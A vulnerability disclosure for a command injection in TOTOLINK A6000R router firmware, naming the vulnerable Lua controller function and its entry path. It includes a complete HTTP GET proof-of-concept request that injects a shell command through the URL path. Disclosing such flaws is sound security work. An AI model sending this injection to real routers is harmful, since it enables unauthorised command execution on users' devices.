 # TOTOLINK A6000R V1.0.1-B20201211.2000 Command Injection (apcli_do_enr_pbc_wps)

## Product Information

- Device: TOTOlink A6000R
- Firmware Version: V1.0.1-B20201211.2000
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/202/ids/36.html

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `apcli_do_enr_pbc_wps` function via the `ifname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/apcli_do_enr_pbc_wps/arg`

![](./3.png)



## Payload

We can trigger this vulnerability by injecting the `ls>111.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/apcli_do_enr_pbc_wps/;ls>111.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=80c79bd6ad9bfba9656b7a8bee2a988f

```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)
